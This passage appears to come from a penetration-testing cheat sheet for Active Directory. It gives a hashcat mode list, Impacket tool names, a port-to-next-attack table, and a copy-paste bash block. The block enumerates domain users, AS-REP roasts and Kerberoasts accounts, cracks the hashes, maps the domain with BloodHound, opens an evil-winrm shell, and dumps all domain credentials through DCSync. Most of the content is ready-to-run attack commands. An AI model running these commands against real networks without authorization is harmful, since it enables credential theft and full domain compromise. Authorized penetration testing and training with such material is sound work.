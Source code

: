 
## 9) Cheatsheet (modes and tools)

- Hashcat: AS‑REP **18200**, Kerberoast **13100**, Net‑NTLMv2 **5600**, PFX **6800**.  
- Impacket all‑stars: `GetNPUsers.py`, `GetUserSPNs.py`, `secretsdump.py`, `psexec.py`, `wmiexec.py`.  
- Core trio: `crackmapexec`, `smbclient`, `rpcclient`.  
- Graph: BloodHound + `bloodhound-python`.  
- LDAP dump: `ldapdomaindump` → open HTML in browser.  
- Shell: `evil-winrm` with password or `-H` hash.

---

## 10) Port → next move quick table

| Found | Next |
|---|---|
| 445 anon OK | List shares, download, grep for `pass`, search `cpassword` |
| 135 RPC null | `enumdomusers` → build `users.txt` |
| 88 Kerberos | AS‑REP roast now; with creds do Kerberoast |
| 389 LDAP | Try anon; with creds run `ldapdomaindump` |
| 5985 WinRM | Test shell with any creds |
| 80/443 | Bruteforce dirs, look for admin panels, config leaks |

---

## 11) Minimal copy‑paste block

```bash
# 1) Users and AS‑REP
rpcclient -U '' -N $TARGET -c enumdomusers | tee users.raw
awk -F'\[|\]' '/user/ {print $2}' users.raw > users.txt
GetNPUsers.py -no-pass -usersfile users.txt $DOMAIN/ -dc-ip $TARGET | tee asrep.txt
hashcat -m 18200 asrep.txt /usr/share/wordlists/rockyou.txt --show

# 2) With any creds
bloodhound-python -d $DOMAIN -u $USER -p "$PASS" -ns $TARGET -c All --zip -o bloodhound/
ldapdomaindump ldap://$TARGET -u "$DOMAIN\$USER" -p "$PASS" -o ldap/
GetUserSPNs.py $DOMAIN/$USER:"$PASS" -dc-ip $TARGET -request -outputfile tgs.hashes
hashcat -m 13100 tgs.hashes /usr/share/wordlists/rockyou.txt --show

# 3) WinRM and DCSync
evil-winrm -i $TARGET -u $USER -p "$PASS"
secretsdump.py -just-dc $DOMAIN/$USER:"$PASS"@$DC > dcsync.txt
```

---

### Notes
- Replace placeholders carefully. Quote passwords with specials. Escape domain backslashes.  
- Prefer `--outputfile` and redirect to keep audit trail.  
- Keep BloodHound graphs with saved queries for the report.
